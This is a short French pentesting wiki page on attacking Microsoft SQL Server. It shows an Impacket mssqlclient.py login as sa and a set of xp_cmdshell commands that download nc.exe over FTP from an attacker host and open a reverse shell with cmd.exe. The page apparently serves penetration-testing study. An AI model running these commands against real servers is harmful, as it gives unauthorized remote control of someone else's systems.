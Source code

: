 ```yaml
---
title: Microsoft SQL Server
permalink: /Microsoft_SQL_Server/
---
```


# Microsoft SQL Server

Utilisation
-----------

### Connexion

[Impacket](/Impacket "wikilink") posséde un outil *mssqlclient.py*. L'exemple suivant permet de se connecter avec sa/password et d'executer les commandes contenues dans *commands.txt*:

``` bash
mssqlclient.py -port 27900 sa:password@192.168.31.227 -file commands.txt
```

### Commandes utiles

Exploitation
------------

### Créer un reverse shell

Les commandes suivantes créent un reverse shell en téléchargeant netcat depuis un serveur FTP.

``` text
EXEC master.dbo.xp_cmdshell 'echo open 192.168.30.229> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo USER user>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo 12345>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo bin>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo GET nc.exe>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo bye>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'ftp -v -n -s:ftp.txt';
EXEC master.dbo.xp_cmdshell 'nc.exe -nv 192.168.30.229 4444 -e cmd.exe';
```

Ressources
----------

### Vidéos

-   [DerbyCon 2016 - SQL Server Hacking on Scale using PowerShell - Scott Sutherland](https://www.youtube.com/watch?v=xLbPztByc8M)

### Outils

-   [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)



